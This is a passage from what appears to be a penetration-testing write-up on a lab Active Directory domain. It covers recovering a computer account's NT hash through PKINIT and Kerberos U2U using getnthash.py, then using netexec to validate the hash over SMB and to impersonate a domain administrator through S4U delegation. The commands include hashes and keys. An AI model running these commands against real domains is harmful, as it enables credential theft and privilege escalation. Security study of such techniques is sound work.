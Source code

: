 
As we authenticated with PKINIT, client account NT hash is encrypted in the PAC (Privilege Attribute Certificate). In order to read the PAC and have access to client's NT hash, the client's must use another Kerberos extension called user to user (U2U). User to user is well explained in [Dirk-jan's blog post](https://datatracker.ietf.org/doc/html/draft-ietf-cat-user2user-02). The idea here is to request a service ticket to ourself while adding our TGT as "additional tickets" during the KRB_TGS_REQ. We will be able to find out the PAC and the NT hash when we receive KDC response as it uses the session key of our TGT (that we know) to encrypt the PAC.
We use this session key (from our TGT) to decrypt PAC and the NT hash. 

```bash
~ python3 /opt/PKINITtools/getnthash.py jjk.local/CURSE-COMP\$ -key f00b6e57ffaf6f23002b39d72ed6f34e0bfa9824db4fe8ccbe28f82b4c96119b
```

![Windows client looking for updates](assets/img/ASK_TGS_U2U.png)



We then have CURSE-COMP$ account NT hash, let's verify it with our new favorite network pentest tool [netexec](https://www.netexec.wiki/).
```bash
~ nxc smb 192.168.56.105 -u  CURSE-COMP\$ -H "8a03b8e0fb9728ee5d6dd1eb356a5270"
```
![Windows client looking for updates](assets/img/Verification_compte_nxc.png)


As we have CURSE-COMP NT hash, we can simply perform [silver ticket](https://en.hackndo.com/kerberos-silver-golden-tickets/?_gl=1*1xbhafq*_ga*MTQ1MTUwNzkwOS4xNjk1MDIyMzU5*_ga_DNP6NC70FV*MTY5OTMwOTI1OS4yLjAuMTY5OTMwOTI1OS4wLjAuMA..#silver-ticket) attack and impersonate domain administrator user on the machine. Usually to perform S4U attacks, we use impacket. To proceed, we have to find domain SID followed by asking a domain administrator ticket to the computer account we compromised. Recently netexec added [new features]()- giving us a huge shortcut to perform this attack.

 ```bash  
~ nxc smb CURSE-COMP.jjk.local -u 'CURSE-COMP$' -H '8a03b8e0fb9728ee5d6dd1eb356a5270' --delegate administrateur --self 
 ```

![Windows client looking for updates](assets/img/S4U_nxc.png)

